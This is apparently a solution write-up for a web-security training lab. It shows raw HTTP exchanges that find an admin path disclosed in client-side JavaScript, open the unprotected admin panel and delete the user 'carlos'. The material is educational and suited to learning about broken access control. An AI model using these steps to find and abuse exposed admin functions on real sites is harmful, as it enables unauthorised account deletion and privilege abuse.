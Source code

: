 ## Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.

## Solution:
When entering the root of the site we find a script-tag in the response containing some javascript that creates an a-tag with a href pointing to ```/admin-4akd4x``` if the isAdmin variable is set to true. But we get the endpoint either way.

Request:
```http
GET / HTTP/1.1
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11051

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-4akd4x');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
**********SNIP**********
```

We try to send a request to this endpoint.
Request:
```http
GET /admin-4akd4x HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3536

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin-4akd4x/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin-4akd4x/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP**********
```

In the response snippet we find the URI:s for deleting users again.
Request:
```http
GET /admin-4akd4x/delete?username=carlos HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin-4akd4x
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](Access_control_lab2.png)